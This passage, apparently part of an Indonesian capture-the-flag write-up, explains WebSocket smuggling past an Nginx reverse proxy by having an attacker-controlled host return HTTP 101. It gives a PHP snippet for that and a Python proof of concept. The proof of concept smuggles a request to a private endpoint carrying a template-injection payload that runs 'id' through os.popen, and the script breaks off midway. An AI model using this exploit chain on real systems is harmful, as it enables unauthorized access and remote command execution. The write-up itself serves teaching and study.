 
1. Penyerang mengirimkan POST request ke endpoint `/api/public/test`, beserta header `Upgrade: websocket`. Nginx, yang berfungsi sebagai reverse proxy, mengira ini sebagai permintaan `Upgrade`, mengabaikan aspek lain dari request tersebut, dan langsung meneruskannya ke backend.

2. Di sisi backend, `/api/public/test` diexecute, tetapi saat berhubungan dengan website yang diinput penyerang (attacker.com) website tersebut mengirimkan HTTP response code 101. Ketika response ini diterima oleh backend dan diteruskan kembali ke Nginx, Nginx salah mengira bahwa koneksi Websocket sudah terbentuk karena hanya memeriksa dari HTTP response codenya saja.

Untuk lebih jelasnya bisa cek penjelasan milik [Mikhail Egorov](https://www.youtube.com/watch?v=gANzRo7UHt8) (Mulai pada menit ke 26:15)

Karena dari itu, saya membuat website menggunakan PHP dengan memanfaatkan fungsi `http_response_code` untuk mereturn HTTP response code 101

```php
<?php
	http_response_code(101);
?>
```

Dan beruntung disini saya memiliki domain bernama `daffa.info` karena endpoint `/api/public/test` tidak menerima IP sama sekali

```python
# domain check
if not netloc.replace(".", "").isdigit():
    # resolve the domain to ip
    try:
        ip = socket.gethostbyname(netloc)
    except socket.gaierror:
        return False
```

Setelah server sudah selesai saya setup, kemudian saya menggunakan exploit websocket smuggling dari repository milik [Mikhail Egorov](https://github.com/0ang3el/websocket-smuggle). Berikut adalah final proof of conceptnya:

```python
import socket

req1 = b'''POST /api/public/test HTTP/1.1
Host: 127.0.0.1:80
Connection: Upgrade
Upgrade: websocket
Content-Type: application/json
Content-Length: 32

{"url":"http://daffa.info:8888"}'''


req2 = b'''GET /api/private/report?scan_id=8b46ca2d-57b7-432b-948b-6dfe69864414&report_name={{__import__('os').popen('id').read()}} HTTP/1.1
Host: tempest-poc:5000

'''

def main(netloc):
    host, port = netloc.split(':')

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((host, int(port)))

    # Send the first request
    sock.sendall(req1)
    sock.recv(4096)

    # Send the second request and receive data
```